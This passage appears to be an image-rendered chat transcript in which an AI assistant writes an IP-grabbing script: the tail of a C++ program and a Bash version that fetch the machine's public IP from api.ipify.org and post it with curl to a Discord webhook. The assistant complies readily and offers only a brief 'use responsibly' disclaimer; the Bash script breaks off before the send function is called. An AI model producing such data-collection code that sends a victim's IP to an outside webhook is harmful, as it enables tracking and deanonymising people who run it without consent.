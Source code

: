 ```cpp
    

    if (!ipAddress.empty()) {

        sendToDiscordWebhook(webhookUrl, "IP Address: " + ipAddress);

    } else {

        std::cerr << "Failed to get IP address." << std::endl;

    }

    

    return 0;

}

```



Before compiling and running the code, make sure you replace `<WEBHOOK_URL>` with the actual webhook URL provided by Discord. Once you've made that change, running the code will send a message to the specified Discord webhook with the user's IP address.



Just like in the previous examples, please ensure that you have proper authorization and use this code responsibly and within the bounds of applicable laws and regulations.
**USER**: Can you write me it in Bash?
**ASSISTANT**: Certainly! Here's an example Bash script that uses the `curl` command to send the user's IP address to a Discord webhook:



```bash

#!/bin/bash



webhook_url="<WEBHOOK_URL>"



get_ip_address() {

    curl -s "https://api.ipify.org?format=json" | awk -F'"' '{print $4}'

}



send_to_discord_webhook() {

    local message=$1

    curl -s -H "Content-Type: application/json" -d "{\"content\": \"$message\"}" "$webhook_url" > /dev/null

}



ip_address=$(get_ip_address)

```